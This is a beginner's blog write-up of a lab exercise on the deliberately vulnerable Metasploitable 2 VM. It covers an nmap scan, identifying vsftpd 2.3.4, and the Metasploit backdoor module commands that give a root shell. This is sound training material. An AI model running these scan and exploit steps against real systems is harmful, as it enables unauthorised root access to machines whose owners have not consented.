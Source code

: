 ```yaml
---
layout: post
title: Exploiting FTP in Metasploitable 2
---
```


## Metasploitable 2

![]({{ site.baseurl }}/_site/images/metasploitable1/meta0.png)


Metasploitable 2 is a deliberately vulnerable linux machine that is meant for beginners to practice their penetration testing skills. The challenges included in metasploitable are straightforward but also provide you with the basis of hacking. 

I've decided to start a metasploitable series, where I write short and explanatory articles while exploiting vulnerabilities in the vulnerable machine. The short articles are meat to help beginners to understand the concepts without taking in too much information in a short period of time.

### Getting started

I'm going to assume that you have your attack machine(Kai Linux) and target (metasploitable2) set up in your hypervisor and ready to go. I am using VirtualBox.

The first thing that I did was to log in to the metasploitable machine using default credentials(msfadmin:msfadmin) and discover the IP address of the machine. I need this IP address to be able to scan the open ports on the metasploitable machine. To get the IP:

```
ifconfig
```
![]({{ site.baseurl }}/_site/images/metasploitable1/meta1.png)

### Scanning

The next thing that I did was to scan the target machine from my attack machine. Scanning is the process of discovering the open ports on the target machine and the services running on those ports. This helps to narrow down the attack pattern against that machine. I used nmap for scanning:

```
nmap -sV -sS -p- -A 192.168.100.13
```
Let's break the options down

- sV: probe open ports to determine service and version information
- sS: TCP SYN connect
- -p-: scan all ports
- A: enable OS detection, version detection, script scanning and traceroute

![]({{ site.baseurl }}/_site/images/metasploitable1/meta2.png)

The image above shows the results from the scanning. After you do the scan, you'll notice that the target machine has a considerable number of open ports, which means there are various attack vectors in this machine.

FTP, on port 21, is on top of the list from the scan results. It also shows the version being used, vsftpd 2.3.4. This gave me an idea on enumeration, and I went on to search if there are any known vulnerabilities on that version. 

![]({{ site.baseurl }}/_site/images/metasploitable1/meta3.png)

### Exploitation

This version of ftp has a malicious backdoor installed on it that grants the attacker root access into the target machine. After reading about the exploit, I went and searched for it in the exploit database.

```
msfconsole
search vsftpd 2.3.4
```
The exploit is available in the database, so I can use the exploit to gain access into the target machine.

![]({{ site.baseurl }}/_site/images/metasploitable1/meta4.png)

```
use exploit/unix/ftp/vsftpd_234_backdoor
show options
set RHOSTS 192.168.100.13
exploit
```

After running the exploit, we get a shell inside the target machine. Running whoami shows that I am running as root, hence we have achieved our goal.

![]({{ site.baseurl }}/_site/images/metasploitable1/meta5.png)

And that is how we do a simple ftp exploit on Metasploitable 2. I hope that was understandable, and easy to follow through.

More to come ...